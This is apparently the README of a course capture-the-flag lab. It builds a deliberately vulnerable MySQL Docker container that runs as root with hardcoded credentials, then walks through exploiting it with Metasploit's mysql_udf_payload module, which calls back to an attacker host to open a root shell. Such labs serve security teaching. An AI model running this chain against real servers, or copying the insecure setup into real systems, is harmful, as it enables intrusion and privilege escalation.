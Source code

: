 # Application overview
These instructions will create a MySQL 5.7.20 instance inside a Docker container on a Ubuntu 22.04 server. The server is vulnerable to the /multi/mysql/mysql_udf_payload exploit in Metasploit. The MySQL service is running as root, allowing an attacker to gain privilege escalation on the target system. I shouldn't have to say this out loud, but this should ABSOLUTELY NOT under any circumstances be used in a production environment.
# Runtime environment setup
1. Download files to build container
    ```
    $ wget https://raw.githubusercontent.com/TechGeek001/netsec-db/main/netsecdb-UbuntuServerX86-64.sh
    $ chmod +x netsecdb-UbuntuServerX86-64.sh
    $ ./netsec-db-UbuntuServerX86-64.sh
    ```
2. Navigate to the newly created directory and build the Docker container
    ```
    $ cd netsecdb/UbuntuServerX86-64
    ```
3. Build and run the Docker container
    ```
    $ docker build -t tnetsecdb .
    $ docker run -d --name netsecdb --dns 192.168.25.10 --dns-search netsec-docker.isi.jhu.edu --privileged --network host tnetsecdb:latest
    ```
4. Exec into the Docker container
    ```
    $ docker exec -it netsecdb bash
    ```
5. Finish configuring MySQL (this can't be done during the build)
    ```
    # cd /root
    # chmod +x setup.sh
    # ./setup.sh
    ```
    This script creates the following remote user: "tiaan.jerjerrod" with the password "doubleEFFORT!!"
# Run the exploit
This procedure was tested on Kali Linux 22.04 using Metasploit Framework 6.4.2-dev
1. Start the MSF Console
   ```
   $ sudo msfconsole
   ```
2. Select the desired exploit
    ```
    > use exploit/multi/mysql/mysql_udf_payload
    ```
3. Set the correct options. In this example, the attacker is 1.1.1.1 and the victim is 2.2.2.2
    ```
    > set LHOST 1.1.1.1
    > set SRVHOST 1.1.1.1
    > set RHOST 2.2.2.2
    > set USERNAME tiaan.jerjerrod
    > set PASSWORD doubleEFFORT!!
    > set target 1
    > exploit
    ```
    Note: MSF will claim that the exploit fails, but the session is still created. Not sure why this happens.
4. Open the session (in this example, it is session 1) and test to see which user this payload is running as.
    ```
    > sessions -i 1
    > show guid
    Server username: root
    ```
5. The flag is located in ```/home/admin```.
# Customizations
1. The MySQL login credentials can be changed by editing ```UbuntuServerX86-64/config_mysql.txt```
2. The flag filename and contents can be changed by editing ```UbuntuServerX86-64/Dockerfile``` below the ```#this is the flag``` comment
